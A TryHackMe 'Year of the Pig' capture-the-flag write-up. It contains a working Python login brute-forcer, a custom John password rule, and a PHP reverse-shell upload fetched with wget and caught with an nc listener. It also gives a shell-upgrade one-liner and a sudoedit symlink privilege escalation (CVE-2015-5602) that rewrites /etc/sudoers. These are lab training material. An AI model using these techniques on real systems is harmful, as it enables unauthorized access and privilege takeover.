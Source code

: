 ```yaml
---
title: "Year of the Pig"
date: 2023-07-13T16:07:36+05:30
draft: false
toc: true
images:
tags:
  - Writeups
  - TryHackMe
---
```


Machine URL :: [Year of the pig](https://tryhackme.com/room/yearofthepig)
## ENUMERATION
Nmap :
```bash
nmap -sC -sV -p- 10.10.9.235  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:10 IST
Nmap scan report for 10.10.9.235
Host is up (0.057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's start with the webserver.

{{< image src="/images/pig/1.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Use gobuster for directory bruteforcing:

{{< image src="/images/pig/2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This reveals the admin directory which yields us this as `/login.php`:

{{< image src="/images/pig/3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

### Web Login:
The page is sending an AJAX request to `/api/login` using JSON format for the user input. Also , the password value is MD5 hash value of the string.

{{< image src="/images/pig/4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

For wrong credentials the following message appears:\
`Remember that passwords should be a memorable word, followed by two numbers and a special character`\
Take a note of that.\

Let's attempt to bruteforce this login now.
We need a custom wordlist as ensured by the password policy. Scanning the page for 'memorable' words gives us this:
```plain-text
Marco
marco
plane
planes
airplane
airplanes
airforce
flying
Savoia
savoia
Macchi
macchi
Curtiss
curtiss
milan
Milan
mechanic
maintenance
Italian
italian
Agility
agility
```
You can use [CeWL](https://digi.ninja/projects/cewl.php) for this.\
Adding a custom rule to `/etc/john/john.conf`. This will fulfill the password policy required.
```
[List.Rules:yop]
Az"[0-9][0-9][!#$%&(),*=/?]"
```
But the passwords are MD5-Hashed first before being sent to the login. Use this python program to hash the passwords and use them to bruteforce the login:
```python
#!/usr/bin/python3
import requests
import sys
import json
import hashlib

payload= {"username":sys.argv[2],"password":"test"}

i = 0
for line in sys.stdin:
    payload["password"] = hashlib.md5(line.rstrip().encode('utf-8')).hexdigest()
    r = requests.post(sys.argv[1]+"/api/login",data=json.dumps(payload))
    json_data = json.loads(r.content)
    i = i +1
    if i % 10 == 0:
        print(str(i),end="\r")
    if json_data["Response"] != "Error":
        print (line)
        break
```
 Got this from [auth.py](https://gist.github.com/j11b0/c5101a9d32be96ff73fa4a72c0705290#file-auth-py)\
 This takes a while. Thankfully the password doesn't seem to reset with every reboot.

{{< image src="/images/pig/6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Going forward we see:

{{< image src="/images/pig/7.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Now this is a complete rabbit hole. The commands section only responds to some commands like `whoami`which tells us we are `www-data` and `id`.

## FOOTHOLD
SSH as marco using the same password and you get the first flag immediately.

{{< image src="/images/pig/8.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Looking in the `/var/www` directory to find some hints of what to do with the webserver we find that marco can edit any file here except `admin.db`.

{{< image src="/images/pig/9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

To read `admin.db` we need to be www-data. So, let’s use our edit access to upload the PentestMonkey PHP reverse shell (located by default on Kali at `/usr/share/webshells/php/php-reverse-shell.php`) — making sure to change the IP and port number. \Using wget:
```bash
root@kali:/usr/share/webshells/php# python3 -m http.server
marco@year-of-the-pig:/var/www/html/admin$ wget YOUR-IP:8000/php-reverse-shell.php
```
Start a listener with `nc -lvnp <chosen-port>` then activate the shell by going to `http://<machine-ip>/php-reverse-shell.php`
{{< image src="/images/pig/10.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We can't read the databse in a non-interactive shell , so to upgrade use :\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

{{< image src="/images/pig/11.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

We got the password hashes of user curtis.

{{< image src="/images/pig/12.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

`su curtis` and you'll get the 2nd flag in his home directory.

## PRIVILEGE ESCALATION
Checking `sudo -l` we see that Curtis can execute sudoedit as sudo, against some files in /var/www/html.

{{< image src="/images/pig/13.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Checking ExploitDB for sudoedit exploit gives us [this](https://www.exploit-db.com/exploits/37710).\
Checking sudo version confirms we are to use the CVE-2015-5602 exploit.
```bash
curtis@year-of-the-pig:~$ sudo --version
Sudo version 1.8.13
Sudoers policy plugin version 1.8.13
Sudoers file grammar version 44
Sudoers I/O plugin version 1.8.13
```
In this version of sudo , sudoedit does not check the full path if a wildcard is used twice (e.g. `/html/*/*/config.php`), allowing a malicious user to replace the `config.php` real file with a symbolic link to a different location.\
Marco being part of the `web-developers` can create such a path.\
Now symlink this to `/etc/sudoers` file so we may give curtis sudo access. You can use this with the `/etc/passwd` file to add your own password.

{{< image src="/images/pig/15.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

Back to Curtis : `sudoedit /var/www/html/dir1/dir2/config.php`
This did not work with sudo for some reason.\
Add curtis to the file :
```plain-text
## User Privilege Specification
##
root ALL=(ALL) ALL
curtis ALL=(ALL) ALL
## Uncomment to allow members of group wheel to execute any command
```
Now you can use su to elevate your privileges.

{{< image src="/images/pig/16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

